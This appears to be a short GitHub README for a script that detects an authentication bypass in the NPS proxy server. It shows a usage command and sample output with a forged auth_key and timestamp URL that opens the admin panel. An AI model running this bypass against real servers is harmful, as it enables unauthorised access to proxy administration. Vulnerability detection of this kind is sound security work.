

# NPS-AUTH-BYPASS

[NPS](https://github.com/ehang-io/nps) proxy server authentication bypasses vulnerability detection.

## Usage

```bash
python nps-auth-bypass.py -u http://127.0.0.1:8080
[+] http://127.0.0.1:8080 is vulnerable!!!
[+] Please Open This URL: http://127.0.0.1:8080/Index/Index?auth_key=e93c5036d1b96b4a0dd3cf4af408e331&timestamp=1659595833
```

